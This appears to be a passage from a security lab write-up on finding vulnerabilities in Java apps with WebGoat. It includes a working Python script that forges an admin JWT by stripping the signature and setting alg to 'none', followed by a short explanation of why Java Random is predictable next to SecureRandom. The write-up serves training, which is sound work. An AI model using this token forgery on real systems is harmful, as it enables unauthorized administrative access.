 #### Exploiting weak JWT handling
Now we know everything we need to exploit identified vulnerability and forge administrative token to perform specific, restricted operation in the application. Let's get a valid token, then change "admin" claim, strip signature and authenticate with the forged token to `/JWT/votings` application endpoint:

```py
def GetJWT(session):
	response = session.get(
		url = "http://localhost:8000/WebGoat" + "/JWT/votings/login?user=Tom"
		)
	return response.cookies.get('access_token')

def JWTAdmin(session, token):
	response = session.post(
		url = webgoat_url + "/JWT/votings",
		cookies = {'access_token' : token}
		)
	return response.text

token = GetJWT(session)
token = jwt.decode(token,options={"verify_signature": False})
token['admin'] = 'true'
token = jwt.encode(token, "",algorithm="none")
token = '.'.join(token.split('.')[0:2]) + '.'
session.cookies.pop('access_token')
jwt_result = JWTAdmin(session, token)
print(jwt_result)
```

And it works:

![JWTExploit](../images/2021-06-23-Vuln_discovery_Java/JWTExploit.png)

### Java Random and its predictability
#### On Random and SecureRandom
Built-in Java `Random` class produces the same output (a single value or a sequence of values) for a given seed, every time. That's it. [Check the docs.](https://docs.oracle.com/javase/8/docs/api/java/util/Random.html).

`SecureRandom` does not suffer from this limitation. Check the following example code and the output it produces:

```java
Random random = new Random();
random.setSeed(1);
System.out.println(random.nextInt());

SecureRandom secureRandom = new SecureRandom();
secureRandom.setSeed(1);
System.out.println(secureRandom.nextInt());
```
